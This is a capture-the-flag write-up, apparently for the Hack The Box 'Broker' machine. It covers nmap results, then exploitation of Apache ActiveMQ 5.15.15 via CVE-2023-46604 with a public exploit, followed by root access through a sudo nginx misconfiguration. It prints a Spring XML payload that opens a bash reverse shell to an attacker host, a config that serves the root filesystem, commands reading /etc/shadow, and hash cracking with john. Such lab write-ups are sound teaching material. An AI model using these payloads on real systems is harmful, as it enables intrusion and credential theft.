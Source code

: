 # Broker

## Nmap

```console
PORT STATE SERVICE REASON VERSION
22/tcp open ssh syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ+m7rYl1vRtnm789pH3IRhxI4CNCANVj+N5kovboNzcw9vHsBwvPX3KYA3cxGbKiA0VqbKRpOHnpsMuHEXEVJc=
| 256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOtuEdoYxTohG80Bo6YCqSzUY9+qbnAFnhsk4yAZNqhM
80/tcp open http syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_ basic realm=ActiveMQRealm
1883/tcp open mqtt syn-ack ttl 63
| mqtt-subscribe:
| Topics and their most recent payloads:
| ActiveMQ/Advisory/Consumer/Topic/#:
|_ ActiveMQ/Advisory/MasterBroker:
5672/tcp open amqp? syn-ack ttl 63
|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
| fingerprint-strings:
| DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie:
| AMQP
| AMQP
| amqp:decode-error
|_ 7Connection from client using unsupported AMQP attempted
8161/tcp open http syn-ack ttl 63 Jetty 9.4.39.v20210325
|_http-server-header: Jetty(9.4.39.v20210325)
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_ basic realm=ActiveMQRealm
|_http-title: Error 401 Unauthorized
33607/tcp open tcpwrapped syn-ack ttl 63
61613/tcp open stomp syn-ack ttl 63 Apache ActiveMQ
| fingerprint-strings:
| HELP4STOMP:
| ERROR
| content-type:text/plain
| message:Unknown STOMP action: HELP
| org.apache.activemq.transport.stomp.ProtocolException: Unknown STOMP action: HELP
| org.apache.activemq.transport.stomp.ProtocolConverter.onStompCommand(ProtocolConverter.java:258)
| org.apache.activemq.transport.stomp.StompTransportFilter.onCommand(StompTransportFilter.java:85)
| org.apache.activemq.transport.TransportSupport.doConsume(TransportSupport.java:83)
| org.apache.activemq.transport.tcp.TcpTransport.doRun(TcpTransport.java:233)
| org.apache.activemq.transport.tcp.TcpTransport.run(TcpTransport.java:215)
|_ java.lang.Thread.run(Thread.java:750)
```

## activemq

* Version of the Active MQ available on the site is 5.15.15
* which is vulnerable to CVE-2023-46604
* can be exploited via [https://github.com/evkl1d/CVE-2023-46604](https://github.com/evkl1d/CVE-2023-46604) and the following commands

```bash
$ nc -lvnp 9001

$python3 -m http.server 80

$ python3 exploit.py -i machine-ip -p 61616 -u http://attacker-ip/poc.xml
```

* contents of poc.xml

```xml
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>bash -i &gt;&amp; /dev/tcp/attacker-ip/9001 0&gt;&amp;1</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```

## User-own

* The shell from the previous exploit returns as below

![rev](/HTB/Machines/images/broker-rev.png)

## Privilege Escalation

* when we check what privileges we have as the activemq user

```bash
$sudo -l
```

![privs](/HTB/Machines/images/broker-privs.png)

* we can create a malicious configuration file as mentioned below, then host it via nginx and read the file system as since the conf is being read as root and from /

```conf
user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 1337;
        root /;
        autoindex on;
    }
}
```

```bash
sudo /usr/sbin/nginx -c hack.conf
curl localhost:1337/etc/shadow
curl localhost:1337/etc/shadow

```

* we can crack the credentials with john or hashcat once they're unshadowed as follows

```bash
$unshadow passwd.txt shadow.txt > unshadowed.txt
$ john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt

```

* then we can either ssh or sudo su onto the box via the revshell earlier
